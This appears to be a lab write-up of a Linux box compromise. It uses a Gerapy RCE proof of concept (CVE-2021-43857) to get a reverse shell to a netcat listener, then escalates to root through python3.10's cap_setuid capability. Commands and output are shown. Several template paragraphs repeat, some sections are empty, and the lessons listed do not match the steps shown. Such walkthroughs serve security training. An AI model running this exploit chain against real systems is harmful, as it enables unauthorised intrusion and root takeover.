

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Web application and exposed network services |
| Primary Entry Vector      | Web RCE (CVE-2021-43857) |
| Privilege Escalation Path | Local enumeration -> misconfiguration abuse -> root |

## Credentials

No credentials obtained.

## Reconnaissance

---
💡 Why this works  
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

## Initial Foothold

---

*Caption: Screenshot captured during this stage of the assessment.*


*Caption: Screenshot captured during this stage of the assessment.*

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
python3 exploit.py -t 192.168.178.24 -p 8000 -L 192.168.45.166 -P 4444
```

```bash
❌[1:46][CPU:12][MEM:63][TUN0:192.168.45.166][...Levram/CVE-2021-43857-POC]
🐉 > python3 exploit.py -t 192.168.178.24 -p 8000 -L 192.168.45.166 -P 4444
[INFO] Logging in to Gerapy...
[INFO] Login successful.
[INFO] Fetching project list...
[INFO] Using project: test
[INFO] Fetching build details for project 'test'...
[INFO] Found project ID: 1
[INFO] Starting netcat listener...
[INFO] Sending exploit payload...
listening on [any] 4444 ...

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
nc -lvnp 4444
```

```bash
❌[1:46][CPU:18][MEM:64][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.24] 51760
bash: cannot set terminal process group (846): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$

```

Retrieved local.txt:
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
find / -iname local.txt 2>/dev/null
cat /home/app/local.txt
```

```bash
app@ubuntu:~$ find / -iname local.txt 2>/dev/null
/home/app/local.txt
app@ubuntu:~$ cat /home/app/local.txt
96a5b02c4dad361c9276ac69edfca332
```

💡 Why this works  
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash

/usr/bin/python3.10 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
```

```bash
app@ubuntu:/tmp$ /usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@ubuntu:/tmp# id

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
cat /root/proof.txt
```

```bash
root@ubuntu:/tmp# cat /root/proof.txt
97eb66bd4855acee30143adb50590ff0

```

💡 Why this works  
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Validate framework debug mode and error exposure in production-like environments.
- Restrict file permissions on scripts and binaries executed by privileged users or schedulers.
- Harden sudo policies to avoid wildcard command expansion and scriptable privileged tools.
- Treat exposed credentials and environment files as critical secrets.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- CVE-2021-43857: https://nvd.nist.gov/vuln/detail/CVE-2021-43857
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
